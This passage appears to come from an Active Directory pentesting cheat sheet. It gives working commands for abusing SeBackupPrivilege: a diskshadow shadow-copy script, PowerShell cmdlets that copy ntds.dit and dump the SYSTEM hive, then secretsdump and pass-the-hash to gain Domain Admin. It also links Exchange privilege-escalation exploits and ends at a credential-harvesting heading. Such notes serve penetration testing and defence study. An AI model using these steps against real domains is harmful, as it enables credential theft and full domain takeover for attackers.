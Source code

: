 1) Once we have access on an account that has the SeBackupPrivilege we can access the DC and create a shadow copy using the signed binary diskshadow:
```
# Create a .txt file that will contain the shadow copy process script
Script ->{
set metadata c:\<PathToSave>metadata.cab
set context clientaccessible
set context persistent
begin backup
add volume c: alias mydrive
create
expose %mydrive% w:
}
```
2) Next we need to access the shadow copy, we may have the `SeBackupPrivilege` but we cant just 
simply copy-paste ntds.dit, we need to mimic a backup software and use Win32 API calls to copy it on an accessible folder. For this we can use [this](https://github.com/giuliano108/SeBackupPrivilege) repo:
```
# Importing both dlls from the repo using powershell
Import-Module .\SeBackupPrivilegeCmdLets.dll
Import-Module .\SeBackupPrivilegeUtils.dll
  
# Checking if the SeBackupPrivilege is enabled
Get-SeBackupPrivilege
  
# If it isn't we enable it
Set-SeBackupPrivilege
  
# Use the functionality of the dlls to copy the ntds.dit database file from the shadow copy to a location of our choice
Copy-FileSeBackupPrivilege w:\windows\NTDS\ntds.dit c:\<PathToSave>\ntds.dit -Overwrite
  
# Dump the SYSTEM hive
reg save HKLM\SYSTEM c:\temp\system.hive 
```
3) Using smbclient.py from impacket or some other tool we copy ntds.dit and the SYSTEM hive on our local machine.
4) Use secretsdump.py from impacket and dump the hashes.
5) Use psexec or another tool of your choice to PTH and get Domain Admin access.

#### Exchange Abuse
- [Abusing Exchange one Api call from DA](https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/)
- [CVE-2020-0688](https://www.zerodayinitiative.com/blog/2020/2/24/cve-2020-0688-remote-code-execution-on-microsoft-exchange-server-through-fixed-cryptographic-keys)
- [PrivExchange](https://github.com/dirkjanm/PrivExchange) Exchange your privileges for Domain Admin privs by abusing Exchange

### Credential Harvesting

#### LSASS
